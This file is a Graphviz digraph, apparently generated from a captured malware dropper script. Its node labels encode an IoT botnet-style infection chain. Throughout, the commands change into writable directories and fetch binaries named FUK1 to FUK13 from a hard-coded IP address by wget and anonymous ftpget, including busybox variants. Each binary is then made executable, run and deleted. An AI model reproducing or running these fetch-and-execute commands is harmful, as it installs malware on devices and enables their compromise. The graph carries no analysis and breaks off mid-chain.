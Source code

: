 digraph {
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 10 [label="||,"];
10 [label="wget http://185.145.131.173/FUK1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x FUK1 "];
12 -> 48 [label=";,"];
48 [label="./FUK1 "];
48 -> 32 [label=";,"];
32 [label="rm -rf FUK1 "];
32 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 28 [label="||,"];
28 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK1 FUK1 "];
28 -> 30 [label=";,"];
30 [label="chmod +x FUK1 ./FUK1 "];
30 -> 32 [label=";,"];
32 [label="rm -rf FUK1 "];
32 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 44 [label="||,"];
44 [label="/bin/busybox wget http://185.145.131.173/FUK1 "];
44 -> 46 [label=";,"];
46 [label="/bin/busybox chmod +x FUK1 "];
46 -> 48 [label=";,"];
48 [label="./FUK1 "];
48 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf FUK1 "];
66 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 62 [label="||,"];
62 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK1 FUK1 "];
62 -> 64 [label=";,"];
64 [label="/bin/busybox chmod +x FUK1 ./FUK1 "];
64 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf FUK1 "];
66 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 78 [label="||,"];
78 [label="wget http://185.145.131.173/FUK2 "];
78 -> 80 [label=";,"];
80 [label="chmod +x FUK2 "];
80 -> 116 [label=";,"];
116 [label="./FUK2 "];
116 -> 100 [label=";,"];
100 [label="rm -rf FUK2 "];
100 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 96 [label="||,"];
96 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK2 FUK2 "];
96 -> 98 [label=";,"];
98 [label="chmod +x FUK2 ./FUK2 "];
98 -> 100 [label=";,"];
100 [label="rm -rf FUK2 "];
100 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 112 [label="||,"];
112 [label="/bin/busybox wget http://185.145.131.173/FUK2 "];
112 -> 114 [label=";,"];
114 [label="/bin/busybox chmod +x FUK2 "];
114 -> 116 [label=";,"];
116 [label="./FUK2 "];
116 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf FUK2 "];
134 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 130 [label="||,"];
130 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK2 FUK2 "];
130 -> 132 [label=";,"];
132 [label="/bin/busybox chmod +x FUK2 ./FUK2 "];
132 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf FUK2 "];
134 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 146 [label="||,"];
146 [label="wget http://185.145.131.173/FUK3 "];
146 -> 148 [label=";,"];
148 [label="chmod +x FUK3 "];
148 -> 184 [label=";,"];
184 [label="./FUK3 "];
184 -> 168 [label=";,"];
168 [label="rm -rf FUK3 "];
168 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 164 [label="||,"];
164 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK3 FUK3 "];
164 -> 166 [label=";,"];
166 [label="chmod +x FUK3 ./FUK3 "];
166 -> 168 [label=";,"];
168 [label="rm -rf FUK3 "];
168 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 180 [label="||,"];
180 [label="/bin/busybox wget http://185.145.131.173/FUK3 "];
180 -> 182 [label=";,"];
182 [label="/bin/busybox chmod +x FUK3 "];
182 -> 184 [label=";,"];
184 [label="./FUK3 "];
184 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf FUK3 "];
202 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 198 [label="||,"];
198 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK3 FUK3 "];
198 -> 200 [label=";,"];
200 [label="/bin/busybox chmod +x FUK3 ./FUK3 "];
200 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf FUK3 "];
202 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 214 [label="||,"];
214 [label="wget http://185.145.131.173/FUK4 "];
214 -> 216 [label=";,"];
216 [label="chmod +x FUK4 "];
216 -> 252 [label=";,"];
252 [label="./FUK4 "];
252 -> 236 [label=";,"];
236 [label="rm -rf FUK4 "];
236 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 232 [label="||,"];
232 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK4 FUK4 "];
232 -> 234 [label=";,"];
234 [label="chmod +x FUK4 ./FUK4 "];
234 -> 236 [label=";,"];
236 [label="rm -rf FUK4 "];
236 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 248 [label="||,"];
248 [label="/bin/busybox wget http://185.145.131.173/FUK4 "];
248 -> 250 [label=";,"];
250 [label="/bin/busybox chmod +x FUK4 "];
250 -> 252 [label=";,"];
252 [label="./FUK4 "];
252 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf FUK4 "];
270 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 266 [label="||,"];
266 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK4 FUK4 "];
266 -> 268 [label=";,"];
268 [label="/bin/busybox chmod +x FUK4 ./FUK4 "];
268 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf FUK4 "];
270 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 282 [label="||,"];
282 [label="wget http://185.145.131.173/FUK5 "];
282 -> 284 [label=";,"];
284 [label="chmod +x FUK5 "];
284 -> 320 [label=";,"];
320 [label="./FUK5 "];
320 -> 304 [label=";,"];
304 [label="rm -rf FUK5 "];
304 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 300 [label="||,"];
300 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK5 FUK5 "];
300 -> 302 [label=";,"];
302 [label="chmod +x FUK5 ./FUK5 "];
302 -> 304 [label=";,"];
304 [label="rm -rf FUK5 "];
304 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 316 [label="||,"];
316 [label="/bin/busybox wget http://185.145.131.173/FUK5 "];
316 -> 318 [label=";,"];
318 [label="/bin/busybox chmod +x FUK5 "];
318 -> 320 [label=";,"];
320 [label="./FUK5 "];
320 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf FUK5 "];
338 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 334 [label="||,"];
334 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK5 FUK5 "];
334 -> 336 [label=";,"];
336 [label="/bin/busybox chmod +x FUK5 ./FUK5 "];
336 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf FUK5 "];
338 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 350 [label="||,"];
350 [label="wget http://185.145.131.173/FUK6 "];
350 -> 352 [label=";,"];
352 [label="chmod +x FUK6 "];
352 -> 388 [label=";,"];
388 [label="./FUK6 "];
388 -> 372 [label=";,"];
372 [label="rm -rf FUK6 "];
372 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 368 [label="||,"];
368 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK6 FUK6 "];
368 -> 370 [label=";,"];
370 [label="chmod +x FUK6 ./FUK6 "];
370 -> 372 [label=";,"];
372 [label="rm -rf FUK6 "];
372 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 384 [label="||,"];
384 [label="/bin/busybox wget http://185.145.131.173/FUK6 "];
384 -> 386 [label=";,"];
386 [label="/bin/busybox chmod +x FUK6 "];
386 -> 388 [label=";,"];
388 [label="./FUK6 "];
388 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf FUK6 "];
406 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 402 [label="||,"];
402 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK6 FUK6 "];
402 -> 404 [label=";,"];
404 [label="/bin/busybox chmod +x FUK6 ./FUK6 "];
404 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf FUK6 "];
406 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 418 [label="||,"];
418 [label="wget http://185.145.131.173/FUK7 "];
418 -> 420 [label=";,"];
420 [label="chmod +x FUK7 "];
420 -> 456 [label=";,"];
456 [label="./FUK7 "];
456 -> 440 [label=";,"];
440 [label="rm -rf FUK7 "];
440 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 436 [label="||,"];
436 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK7 FUK7 "];
436 -> 438 [label=";,"];
438 [label="chmod +x FUK7 ./FUK7 "];
438 -> 440 [label=";,"];
440 [label="rm -rf FUK7 "];
440 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 452 [label="||,"];
452 [label="/bin/busybox wget http://185.145.131.173/FUK7 "];
452 -> 454 [label=";,"];
454 [label="/bin/busybox chmod +x FUK7 "];
454 -> 456 [label=";,"];
456 [label="./FUK7 "];
456 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf FUK7 "];
474 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 470 [label="||,"];
470 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK7 FUK7 "];
470 -> 472 [label=";,"];
472 [label="/bin/busybox chmod +x FUK7 ./FUK7 "];
472 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf FUK7 "];
474 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 486 [label="||,"];
486 [label="wget http://185.145.131.173/FUK8 "];
486 -> 488 [label=";,"];
488 [label="chmod +x FUK8 "];
488 -> 524 [label=";,"];
524 [label="./FUK8 "];
524 -> 508 [label=";,"];
508 [label="rm -rf FUK8 "];
508 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 504 [label="||,"];
504 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK8 FUK8 "];
504 -> 506 [label=";,"];
506 [label="chmod +x FUK8 ./FUK8 "];
506 -> 508 [label=";,"];
508 [label="rm -rf FUK8 "];
508 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 520 [label="||,"];
520 [label="/bin/busybox wget http://185.145.131.173/FUK8 "];
520 -> 522 [label=";,"];
522 [label="/bin/busybox chmod +x FUK8 "];
522 -> 524 [label=";,"];
524 [label="./FUK8 "];
524 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf FUK8 "];
542 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 538 [label="||,"];
538 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK8 FUK8 "];
538 -> 540 [label=";,"];
540 [label="/bin/busybox chmod +x FUK8 ./FUK8 "];
540 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf FUK8 "];
542 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 554 [label="||,"];
554 [label="wget http://185.145.131.173/FUK9 "];
554 -> 556 [label=";,"];
556 [label="chmod +x FUK9 "];
556 -> 592 [label=";,"];
592 [label="./FUK9 "];
592 -> 576 [label=";,"];
576 [label="rm -rf FUK9 "];
576 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 572 [label="||,"];
572 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK9 FUK9 "];
572 -> 574 [label=";,"];
574 [label="chmod +x FUK9 ./FUK9 "];
574 -> 576 [label=";,"];
576 [label="rm -rf FUK9 "];
576 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 588 [label="||,"];
588 [label="/bin/busybox wget http://185.145.131.173/FUK9 "];
588 -> 590 [label=";,"];
590 [label="/bin/busybox chmod +x FUK9 "];
590 -> 592 [label=";,"];
592 [label="./FUK9 "];
592 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf FUK9 "];
610 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 606 [label="||,"];
606 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK9 FUK9 "];
606 -> 608 [label=";,"];
608 [label="/bin/busybox chmod +x FUK9 ./FUK9 "];
608 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf FUK9 "];
610 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 622 [label="||,"];
622 [label="wget http://185.145.131.173/FUK10 "];
622 -> 624 [label=";,"];
624 [label="chmod +x FUK10 "];
624 -> 660 [label=";,"];
660 [label="./FUK10 "];
660 -> 644 [label=";,"];
644 [label="rm -rf FUK10 "];
644 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 640 [label="||,"];
640 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK10 FUK10 "];
640 -> 642 [label=";,"];
642 [label="chmod +x FUK10 ./FUK10 "];
642 -> 644 [label=";,"];
644 [label="rm -rf FUK10 "];
644 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 656 [label="||,"];
656 [label="/bin/busybox wget http://185.145.131.173/FUK10 "];
656 -> 658 [label=";,"];
658 [label="/bin/busybox chmod +x FUK10 "];
658 -> 660 [label=";,"];
660 [label="./FUK10 "];
660 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf FUK10 "];
678 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 674 [label="||,"];
674 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK10 FUK10 "];
674 -> 676 [label=";,"];
676 [label="/bin/busybox chmod +x FUK10 ./FUK10 "];
676 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf FUK10 "];
678 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 690 [label="||,"];
690 [label="wget http://185.145.131.173/FUK11 "];
690 -> 692 [label=";,"];
692 [label="chmod +x FUK11 "];
692 -> 728 [label=";,"];
728 [label="./FUK11 "];
728 -> 712 [label=";,"];
712 [label="rm -rf FUK11 "];
712 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 708 [label="||,"];
708 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK11 FUK11 "];
708 -> 710 [label=";,"];
710 [label="chmod +x FUK11 ./FUK11 "];
710 -> 712 [label=";,"];
712 [label="rm -rf FUK11 "];
712 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 724 [label="||,"];
724 [label="/bin/busybox wget http://185.145.131.173/FUK11 "];
724 -> 726 [label=";,"];
726 [label="/bin/busybox chmod +x FUK11 "];
726 -> 728 [label=";,"];
728 [label="./FUK11 "];
728 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf FUK11 "];
746 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 742 [label="||,"];
742 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK11 FUK11 "];
742 -> 744 [label=";,"];
744 [label="/bin/busybox chmod +x FUK11 ./FUK11 "];
744 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf FUK11 "];
746 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 758 [label="||,"];
758 [label="wget http://185.145.131.173/FUK12 "];
758 -> 760 [label=";,"];
760 [label="chmod +x FUK12 "];
760 -> 796 [label=";,"];
796 [label="./FUK12 "];
796 -> 780 [label=";,"];
780 [label="rm -rf FUK12 "];
780 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 776 [label="||,"];
776 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK12 FUK12 "];
776 -> 778 [label=";,"];
778 [label="chmod +x FUK12 ./FUK12 "];
778 -> 780 [label=";,"];
780 [label="rm -rf FUK12 "];
780 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 792 [label="||,"];
792 [label="/bin/busybox wget http://185.145.131.173/FUK12 "];
792 -> 794 [label=";,"];
794 [label="/bin/busybox chmod +x FUK12 "];
794 -> 796 [label=";,"];
796 [label="./FUK12 "];
796 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf FUK12 "];
814 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 810 [label="||,"];
810 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK12 FUK12 "];
810 -> 812 [label=";,"];
812 [label="/bin/busybox chmod +x FUK12 ./FUK12 "];
812 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf FUK12 "];
814 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 826 [label="||,"];
826 [label="wget http://185.145.131.173/FUK13 "];
826 -> 828 [label=";,"];
828 [label="chmod +x FUK13 "];
828 -> 864 [label=";,"];
864 [label="./FUK13 "];
864 -> 848 [label=";,"];
848 [label="rm -rf FUK13 "];
848 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 844 [label="||,"];
844 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK13 FUK13 "];
844 -> 846 [label=";,"];
846 [label="chmod +x FUK13 ./FUK13 "];
846 -> 848 [label=";,"];
